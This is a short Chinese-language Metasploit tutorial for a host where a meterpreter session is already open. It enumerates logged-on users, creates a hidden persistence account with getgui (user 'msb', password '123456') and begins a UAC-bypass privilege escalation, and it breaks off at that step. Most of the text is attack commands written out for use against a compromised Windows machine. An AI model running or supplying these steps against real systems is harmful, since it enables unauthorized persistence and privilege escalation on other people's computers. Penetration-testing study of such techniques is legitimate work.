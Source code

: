 一、环境准备

1 MSF-Metasploit Framework

2 一台获取到meterpreter的靶机

二、实际操作

1、先看下目标靶机已存在用户  meterpreter中输入：

`run post/windows/gather/enum_logged_on_users`

![1643108073546](https://img.gyxnb.top/img/1643108073546.png) 

2、使用getgui创建 一个用户名为 msb  密码为 123456  的账户

`run getgui -u msb -p 123456`

run getgui -u {用户名}-p {密码}

进入win的运行输入`netplwiz` 可以查看账户创建情况

![1643108092979](https://img.gyxnb.top/img/1643108092979.png)

[-] Insufficient privileges, account was not be created. 看到这个提示就需要先提权（获取到system）

2.1 绕过UAC提权

`use exploit/windows/local/ask`